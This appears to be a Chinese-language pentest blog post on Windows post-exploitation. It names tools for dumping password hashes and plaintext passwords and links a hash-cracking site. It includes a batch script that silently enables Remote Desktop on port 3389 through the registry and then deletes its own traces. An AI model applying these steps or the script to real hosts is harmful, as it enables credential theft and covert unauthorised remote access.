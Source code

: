 +++
date = "2016-08-08T08:28:27+08:00"
description = ""
draft = false
tags = ["elevate privileges"]
title = "导出主机密码与开启3389"
topics = ["Pentest"]

+++


### 0x00 导出主机密码hash
* 条件
    * administrator以上权限
* 工具
    * wce
    * gethash
    * hashdump
* hash解密网站  
    * http://www.objectif-securite.ch/ophcrack.php
* 上传工具得到hash
{{% fluid_img src="/img/post/privilge_escalation_win_view_whoami.png" alt="查看是否为管理员以上权限" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_upload_wce.png" alt="上传wce" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_get_hash.png" alt="得到hash" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_get_pwd.png" alt="解出密码" %}}


### 0x01 导出主机密码
* 条件
    * administrator以上权限
    * 当前管理员没有注销登陆(可以通过query user命令看出)
* 工具
    * mimikatz
    * getpass
* 上传工具得到密码
{{% fluid_img src="/img/post/privilge_escalation_win_view_whoami.png" alt="查看是否为管理员以上权限" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_query_user.png" alt="查看管理员是否注销登陆" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_upload_getpass.png" alt="上传getpass" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_getpass1.png" alt="得到密码1" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_getpass2.png" alt="得到密码2" %}}

### 0x02 开启3389
* 直接使用注册表
{{% fluid_img src="/img/post/privilge_escalation_win_new_file_3389_reg.png" alt="新建开3389的注册表" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_open_3389.png" alt="开3389端口" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_open_3389_success.png" alt="成功开启3389端口" %}}

* 写一个批处理也行
```
# 3389.bat内容如下：
echo Windows Registry Editor Version 5.00>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg 
echo "fDenyTSConnections"=dword:00000000>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
regedit /s 3389.reg 
del 3389.reg
del 3389.bat
```
{{% fluid_img src="/img/post/privilge_escalation_win_new_file_3389_bat.png" alt="新建开3389的注册表" %}}